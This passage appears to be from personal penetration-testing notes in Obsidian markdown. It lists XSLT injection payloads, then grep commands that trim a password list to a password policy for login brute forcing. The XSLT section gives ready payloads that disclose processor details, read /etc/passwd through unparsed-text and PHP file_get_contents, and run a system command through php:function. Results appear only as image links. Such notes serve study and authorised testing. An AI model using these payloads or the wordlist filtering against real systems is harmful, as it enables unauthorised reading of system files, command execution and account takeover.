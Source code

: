 >
>###### Information Disclosure
>```html
># Inject these XSLT elements:
>Version: <xsl:value-of select="system-property('xsl:version')" />
><br/>
>Vendor: <xsl:value-of select="system-property('xsl:vendor')" />
><br/>
>Vendor URL: <xsl:value-of select="system-property('xsl:vendor-url')" />
><br/>
>Product Name: <xsl:value-of select="system-property('xsl:product-name')" />
><br/>
>Product Version: <xsl:value-of select="system-property('xsl:product-version')" />
>```
>>[!code]- Result
>>![[Images/Pasted image 20250717072519.png]]
>
>###### Local File Inclusion
>Whether a payload will work will depend upon the XSLT version and the configuration of the XSLT library.
>```html
><xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />
>
><xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />
>```
>>[!code]- Result (<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />)
>>![[Images/Pasted image 20250717073258.png]]
>>
>###### Remote Code Execution
>If the XSLT processor support PHP functions, we can call a PHP function that executes local system command.
>```xml
><xsl:value-of select="php:function('system','id')" />
>```
>>[!code]- Result
>>![[Images/Pasted image 20250717073426.png]]
### Login Brute Forcing

>[!code]- Filter a password list to a password policy
>Password policy:
>- **Minimum length:** 8 chars
>- **Must include:** at least one upper case letter, lower case letter, one number
>
>```powershell
># Minimum length of 8
>grep -E '^.{8,}$' password.list > output.txt
>
># At least one upper/lower case character
>grep -E '[A-Z]' password.list > output.txt
>grep -E '[a-z]' password.list > output.txt
>
># At least one number
>grep -E '[0-9]' password.list > output.txt
>```

